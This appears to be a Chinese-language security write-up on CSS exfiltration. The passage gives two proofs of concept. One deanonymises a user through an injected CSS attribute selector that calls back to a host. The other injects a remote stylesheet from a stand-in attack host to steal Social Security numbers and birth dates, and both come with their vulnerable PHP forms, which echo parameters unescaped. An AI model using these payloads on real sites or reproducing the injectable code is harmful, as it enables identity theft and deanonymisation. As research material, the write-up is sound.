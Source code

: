 ## 验证概念 #4
利用CSS Exfil来验证可疑的暗网用户的身份，通过欺骗用户点击链接。

易受攻击的URL：`hxxp://victim[.]host/css-exfil-poc4[.]php?xss="><style>[value="deadbeef"]{background:url("hxxps://victim[.]host/deadbeef_found");}</style><br`

```html
<html>
<head>
</head>
<body>
    <form>
        <h1>Your Account</h1>
        Username: <input id="username" value="deadbeef"><br/>
        XSS Field: <input type="text" name="xss" value="<?php echo $_GET["xss"] ?>" />
    </form>
</body>
</html>
```

远程攻击者接到的信号

```txt
127.0.0.1 - - [30/Jan/2018:18:06:35 -0500] "GET /deadbeef_found HTTP/1.1" 404 22
```

上面的日志条目将确认目标确实是用户“deadbeef”，从而去匿名化他们的身份。

## 验证概念 #5
通过代码注入缺陷利用CSS Exfil去偷取社保号（SSN）和出生日期

易受攻击的URL：`hxxp://victim[.]host/css-exfil-poc5[.]php?xss="><link href='hxxps://attack[.]host/poc5-css.php' rel='stylesheet' type='text/css'><input name='xss' type='hidden' value='"><link href=/poc5-css.php rel=stylesheet type=text/css><br'><br><input type=submit value='Click to continue...'><style>[value=submit]{display:none;}.fields-note{display:none;}.fields-last{display:none;}</style><br`

```html
<html>
<head>
</head>
<body>
    <form>
        <h1>Secure Sign Up Form</h1>

            <div class="form-container">

                <div class="fields-ssn">
                    <label>Social Security number*</label>
                    <br>
                    <input name="ssn1" type="password" size="3" maxlength="3" value="<?php echo $_GET["ssn1"] ?>">
                    <input name="ssn2" type="password" size="2" maxlength="2" value="<?php echo $_GET["ssn2"] ?>">
                    <input name="ssn3" type="password" size="4" maxlength="4" value="<?php echo $_GET["ssn3"] ?>">
                </div>

                <div class="fields-dob">
                    <label>Date of birth*</label>
                    <br>
                    <input name="dob1" type="text" size="2" maxlength="2" value="<?php echo $_GET["dob1"] ?>">
                    <input name="dob2" type="text" size="2" maxlength="2" value="<?php echo $_GET["dob2"] ?>">
                    <input name="dob3" type="text" size="4" maxlength="4" value="<?php echo $_GET["dob3"] ?>">
```